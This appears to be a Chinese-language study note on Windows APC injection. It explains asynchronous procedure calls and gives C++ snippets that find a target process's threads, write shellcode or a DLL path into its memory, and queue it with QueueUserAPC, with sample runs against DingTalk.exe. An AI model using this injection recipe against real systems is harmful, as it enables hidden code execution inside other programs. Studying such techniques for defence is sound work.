


# APC Injection

## 简介

Asynchronous Procedure Calls, 异步程序调用, 

1. 攻击已存在的Process. 向某个Thread植入APC(异步调用)完成代码执行.
2. shellcode
3. 无`CreateRemoteThread`


在一个进程中，当一个执行到`SleepEx()`或者`WaitForSingleObjectEx()`时，系统就会产生一个**软中断**，当线程再次被唤醒时，此线程会**首先执行APC队列中的被注册的函数**，利用`QueueUserAPC()`这个API可以往线程的APC队列中注册函数. 一旦线程有空隙了, windows就会执行一下windows在执行完线程的主要任务何后, 顺便把apc队列执行一遍.

### 注意点

2. 当线程进入警戒状态时，会循环检查线程中的APC队列，如果APC队列中存在函数指针，那么就会调用该函数
3. 使用`QueueUserAPC`向APC队列插入地址(类似`CreateRemoteThread`, 开头设置在函数地址或者shellcode地址都行), 例如使用`Loadlibrary()`，实现加载DLL.
4. 注入成功后，警戒状态结束，程序继续运行，有可能造成程序不稳定，导致程序崩溃.
	* 这点不知道怎么解决, 对话框一点掉进程就崩溃了.
5. 如果没有删除APC队列，不能反复注入同一函数.
6. 使用APC注入，需要目标进程中**至少有一个线程处于警戒状态或者能够进入警戒状态**，否则无法实现APC注入. 
	* 所以最简单的方式就是往所有线程里都注入APC, 总有几个能执行.
	* 或者在shellcode里让线程自己执行`SleepEx`或者`NtTestAlert`, 但这个没有办法实现, 因为远程操控别的进程线程的方法就是注入shellcode, 本末倒置.

### Disadvantage
启动器不能让任意Thread执行APC, 需要先让那个Thread进入alertable state (i.e `SleepEx`), 或者目标线程处于警戒状态.

### 步骤简介

1. 找到目标进程
	* `pid`
	* `OpenProcess`
2. 写入shellcode
	* `VirtualAlloc`
	* `WriteProcessMemory`
3. 找到目标进程里的所有线程, 确定TID(为保证命中率, 可以注入所有的线程)
	* `Thread32First`
	* `Thread32Next`
4. 向每个线程插入一个APC(调用的开头指向函数的地址或者shellcode地址, 类似`CreateRemoteThread`, 开头设置在函数地址或者shellcode地址都行)
	* 使用`QueueUserAPC`
	* `QueueUserAPC((PAPCFUNC)pLoadLibrary, hThread, (ULONG_PTR)AllocAddr);`
	* `QueueUserAPC((PAPCFUNC)ShellcodeAddress, hThread, (ULONG_PTR)AllocAddr);`
5. 撞大运等线程状态转变, 例如`SleepEx`这种让线程变成警戒状态执行APC内的调用. 注意, 写在注入器里没用, 要让目标线程自己执行.
	* `SleepEx`、`SignalObjectAndWait`、`MsgWaitForMultipleObjectsEx`，`WaitForMultipleObjectsEx`或者`WaitForSingleObjectEx`
	* [https://msdn.microsoft.com/en-us/library/windows/desktop/aa363772(v=vs.85).aspx](https://msdn.microsoft.com/en-us/library/windows/desktop/aa363772(v=vs.85).aspx)

## 关键步骤代码注释

### 找到目标进程和搜索目标进程下的所有线程
这步和之前的注入方式重合, 所以就简单粘贴了一下.

```
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);  // 它这里是把进程线程都生成快照
	HANDLE victimProcess = NULL;
	PROCESSENTRY32 processEntry = { sizeof(PROCESSENTRY32) };
	THREADENTRY32 threadEntry = { sizeof(THREADENTRY32) };
	std::vector<DWORD> threadIds;
	HANDLE threadHandle = NULL;

	if (Process32First(snapshot, &processEntry)) {	// search Process
		while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
			Process32Next(snapshot, &processEntry);
		}
	}

	if (Thread32First(snapshot, &threadEntry)) {	//search Thread
		do {
			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
				threadIds.push_back(threadEntry.th32ThreadID);
			}
		} while (Thread32Next(snapshot, &threadEntry));
	}
```

### 写入注入内容

#### shellcode

```
LPVOID AllocMemory = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);	//没注进去是这个最后一个参数设置的问题
WriteProcessMemory(hProcess, AllocMemory, shellcode, sizeof(shellcode), NULL);
```

#### dll route
`arg[2]=dll route(Ex: C://Windows//System32//amsi.dll)`

```
LPVOID AllocMemory = VirtualAllocEx(hProcess, NULL, lstrlen(arg[2]) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);	//没注进去是这个最后一个参数设置的问题
WriteProcessMemory(hProcess, AllocMemory, arg[2], lstrlen(arg[2]) + 1, NULL);
PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryA");
```

### 向每个线程插入一个APC

#### shellcode

```
	std::vector<DWORD> ThreadTids = GetThreadTid(Pid);
	for (DWORD threadId : ThreadTids) // 将所有的线程都插入APC调用.
	{
		HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
		QueueUserAPC((PAPCFUNC)AllocMemory, hThread, NULL);	// 类似 CreateRemoteThread, 入口放在存shellcode的内存地址.
	}
```

#### dll

```
		HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
		QueueUserAPC((PAPCFUNC)pfnStartAddr, hThread, (ULONG_PTR)AllocMemory);
```

## Result
Dll_Injection: `C:\Users\Ronpa\Desktop\APC_Injection_Shellcode\Release\APC_Injection_Shellcode.exe DingTalk.exe C:\Users\Ronpa\Desktop\MsgDll.dll`


Shellcode_Injection: `C:\Users\Ronpa\Desktop\APC_Injection_Shellcode\Release\APC_Injection_Shellcode.exe DingTalk.exe`
DingTalk.exe进程里大概有6-7个处于Alert状态的线程. 所以有那么多弹窗代表执行了shellcode.


# 知识补充

## APC

由于在线程执行过程中，其他线程无法**干预当前执行线程**(占用cpu)，如果需要干预当前执行线程的操作，就需要有一种让线程自身去调用的机制，windows实现了一种称之为APC的技术，这种技术可以通过**插入队列**(执行信息)让线程在一定条件下自己去调用，这样就实现了异步操作。


线程是不能被“杀掉”、“挂起”、“恢复”的, 线程在执行的时候自己占据着CPU, 别人怎么可能控制它呢?
举个极端的例子: 如果不调用API, 屏蔽中断, 并保证代码不出现异常, **线程将永久占用CPU**, 何谈控制呢? 所以说线程如果想“死", 一定是自己执行代码把自己杀死,不存在“他杀”这种情况!
那如果想改变一个线程的行为该怎么办呢?
可以给他提供一个函数, 让它自己去调用,这个函数就是APC (Asyncroneus Procedure Call), 即异步过程调用。

软件中断机制, 应该是**允许别的线程打断占用cpu的线程**.